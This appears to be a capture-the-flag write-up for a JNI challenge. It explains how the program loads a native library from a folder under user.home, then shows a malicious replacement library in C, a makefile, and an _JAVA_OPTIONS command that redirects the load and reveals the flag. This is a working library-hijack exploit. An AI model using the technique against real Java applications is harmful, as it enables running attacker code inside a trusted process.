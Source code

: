 

### The weakness

``hellotest`` is written in C++, it invokes java function ``sayHello`` via JNI. The function is defined in ``Helloworld.java``, it invokes a native function ``print``.

```java
    ...
    public static void sayHello(String flag) throws Exception
    {
        String msg = "Hello World from JNI!";
        print(msg);
        if (msg.contains("flag"))
        {
            //What just happened? 
            print("What the flag? How did that happen...");
            print("Your flag is: " + flag);
        }
    }
    ...
    private static native void print(String msg);
    ...
```

``print`` is a C function, defined in ``hellolib.c``, which will be used to build shared object ``hellolib.so`` to be loaded into JVM at runtime.

```c
JNIEXPORT void JNICALL Java_Helloworld_print
  (JNIEnv* env, jclass cls, jstring msg)
{
    const char* str = (*env)->GetStringUTFChars(env, msg, 0);
    printf("%s\n", str);
    if (str)
        (*env)->ReleaseStringUTFChars(env, msg, str);
    fflush(stdout);
}
```

``HelloWorld`` copy ``hellolib.so`` from ``HelloWorld.jar``, here comes the vulnerability, it then copy ``hellolib.so`` to directory ``libFolder`` for later invoke. ``libFolder`` is a directoy, named *".helloWorld"*, under *System.getProperty("user.home")*. If we specify the property *"user.home"*, we can make it use library in arbitrary path.

```java
    private static void loadingLibrary() throws Exception
    {
        Path libFolder = Paths.get(System.getProperty("user.home"), ".helloWorld");
        
        //Create user folder to copy libraries from jar file.
        if (!Files.exists(libFolder))
            Files.createDirectory(libFolder);
        
        //Copy library from jar file into user folder
        Path libDest = libFolder.resolve("libhello.so");
        try
        {
        //Copy libhello if not already there.
            Files.copy(ClassLoader.getSystemResourceAsStream("libhello.so"), libDest);
        }
        catch (Exception e)
        { 
            //i don't know why this is throwing an error...
            //i think this fixes it...
        }
        
        //Dynamically link to it.
        System.load(libDest.toString());
    }
```

### Create something evil

We need to create a our evil ``hellolib.c``, lets' say ``fakelib.c``.  In the file we create a char array contains string *"flag"*.

```c
    jcharArray buf = (*env)->NewCharArray(env, 4);
    jchar arr[4] = {'f','l','a','g'};
    (*env)->SetCharArrayRegion(env, buf, 0, 4, arr); 
```

Assign the char array ``buf`` to ``msg``, *"\[C"* to indicate we are getting *value* field which is a char array as specified in [JNI Types and Data Structures](https://docs.oracle.com/javase/7/docs/technotes/guides/jni/spec/types.html#wp276)

```c
    jclass cla = (*env)->GetObjectClass(env, msg);
    jfieldID id = (*env)->GetFieldID(env, cla, "value", "[C");
    (*env)->SetObjectField(env, msg, id, buf);
```

We need a customized makefile to build the *.so* file, since we are only allowed to create files in */tmp*, we need to change the paths accordingly.

```make
libhello.so : fakelib.o
    cc fakelib.o -shared -o libhello.so
    mkdir -p .helloWorld
    cp libhello.so .helloWorld
	
fakelib.o : 
    cp /home/lib/Helloworld.h .
    cc  -c -I/usr/lib/jvm/java-8-openjdk-amd64/include -fpic fakelib.c
```

*_JAVA_OPTIONS* is way to specify JVM arguments as an environment variable instead of command line parameters. Run ``hellotest`` in ``/home/lib`` directory with *_JAVA_OPTIONS="-Duser.home=/tmp"*.

```bash
$ _JAVA_OPTIONS="-Duser.home=/tmp" /home/lib/hellotest
Picked up _JAVA_OPTIONS: -Duser.home=/tmp
fakelib                                                                                                                                                                 
Hello World from JNI!                   
fakelib                                 
What the flag? How did that happen...
fakelib
Your flag is: CTF{JN1_1s_r3a77y_f4n!}
```

### Reference

- [JNI Types and Data Structures](https://docs.oracle.com/javase/7/docs/technotes/guides/jni/spec/types.html#wp276)
- [Chapter 4: JNI Functions](https://docs.oracle.com/en/java/javase/13/docs/specs/jni/functions.html)
